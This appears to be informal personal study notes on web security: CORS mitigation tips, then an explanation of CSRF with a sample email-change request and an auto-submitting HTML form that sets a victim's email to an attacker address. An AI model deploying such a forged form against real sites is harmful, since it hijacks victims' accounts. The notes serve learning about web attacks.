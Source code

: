 <h3>Mitigation</h3>

-Use the whitelist. all subdomains should be listed in this whitelist as a trusted source. And make sure none of the subdomains have XSS vulnerability.

-Never used CORS as a security policies as its machanism is intended for accessing 3rd parties resources.

-Don't use null or wildcards in CORS.

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## CSRF

CSRF or Cross-site request forgey is basically attackers trick users to perform functions for them. As for targeted functions are usually changing password, changing email, add admin role, submit forms.

<h2>To make the attacker work what you need are 3 things</h2>

1. Function you want users to interact (usually something that can help us compromise accounts)
2. Websites must use cookies (token is uh-uh)
3. Unpredictable param (like enter current password and then new password. since attackers don't know the current password i mean if they know they dont have to do this lol.)

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE

email=wiener@normal-user.com
```
once all conditions are met we go exploittttt

```
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**What happen here?**

The above is html page in attacker website. basically a submission form.(i mean in real life it wont be this simple lol as you need to make the page looks real.)

if the victim believes this is a legit website, they click the link, once they click on the link its GG. the form will automatically submitted using the victim session cookies (victim broswer automatically uses session cookies so no need for the victim to login). and more importantly websites must not use SameSite cookies or else we go empty hand.
